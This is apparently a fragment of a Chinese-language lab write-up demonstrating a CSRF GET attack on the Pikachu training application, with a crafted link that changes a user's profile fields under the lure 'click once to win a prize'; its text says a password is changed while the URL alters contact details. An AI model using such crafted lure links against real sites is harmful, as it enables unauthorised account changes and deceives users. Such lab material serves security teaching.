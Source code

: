 
攻击者通过对该网站修改密码部分的代码进行抓取。

![image-20230414083015091](assets/nVLrH1cxqtje6IQ.png)

然后修改相关的参数并构建出恶意的URL，同时把密码修改为1162665656565，并且输入一些诱导性字样。

```
url:<a href="http://192.168.10.150/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=boy&phonenum=116266565656&add=nba+lakes&email=kobe%40pikachu.com&submit=submit">点一下即可中奖</a>
```

![image-20230414083053966](assets/8epJHz1QarW5vw2.png)